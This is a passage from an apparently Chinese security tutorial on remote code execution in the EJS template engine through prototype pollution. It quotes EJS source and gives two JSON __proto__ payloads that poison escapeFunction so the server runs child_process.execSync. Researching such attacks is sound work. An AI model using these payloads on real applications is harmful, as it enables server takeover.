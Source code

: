 再次刷新页面进行渲染时就会把我们写入的拼接, 执行我们输入的命令

[![](https://p0.ssl.qhimg.com/t011df793a3d7b33e5a.png)](https://p0.ssl.qhimg.com/t011df793a3d7b33e5a.png)

同样 ejs 模板还存在另一处 RCE

```
var escapeFn = opts.escapeFunction;
var ctor;
...
    if (opts.client) `{`
    src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
    if (opts.compileDebug) `{`
        src = 'rethrow = rethrow || ' + rethrow.toString() + ';' + '\n' + src;
    `}`
`}`
```

伪造 `opts.escapeFunction` 也可以进行 RCE

```
`{`"__proto__":`{`"__proto__":`{`"client":true,"escapeFunction":"1; return global.process.mainModule.constructor._load('child_process').execSync('dir');","compileDebug":true`}``}``}`

`{`"__proto__":`{`"__proto__":`{`"client":true,"escapeFunction":"1; return global.process.mainModule.constructor._load('child_process').execSync('dir');","compileDebug":true,"debug":true`}``}``}`
```

可以看到 `escapeFunction` 已经在全局变量中被复制了

[![](https://p0.ssl.qhimg.com/t016df52775632233fa.png)](https://p0.ssl.qhimg.com/t016df52775632233fa.png)

再次刷新页面进行渲染时就会把我们写入的拼接, 执行我们输入的命令

[![](https://p5.ssl.qhimg.com/t0148129a20b655ec59.png)](https://p5.ssl.qhimg.com/t0148129a20b655ec59.png)

添加 `"debug":true` 污染时可以在调试时候看到自己赋值的命令

[![](https://p2.ssl.qhimg.com/t015a3ca87dcc394ff7.png)](https://p2.ssl.qhimg.com/t015a3ca87dcc394ff7.png)

**补充: **在 ejs 模板中还有三个可控的参数, 分别为 `opts.localsName` 和 `opts.destructuredLocals` 和 `opts.filename`, 但是这三个无法构建出合适的污染链

有一处调用 localsName, 污染会报错

```
fn = new ctor(opts.localsName + ', escapeFn, include, rethrow', src);
```

污染 destructuredLocals

```
if (opts.destructuredLocals &amp;&amp; opts.destructuredLocals.length) `{`
        var destructuring = '  var __locals = (' + opts.localsName + ' || `{``}`),\n';
        for (var i = 0; i &lt; opts.destructuredLocals.length; i++) `{`
          var name = opts.destructuredLocals[i];
          if (i &gt; 0) `{`
            destructuring += ',\n  ';
          `}`
          destructuring += name + ' = __locals.' + name;
        `}`
        prepended += destructuring + ';\n';
      `}`
```
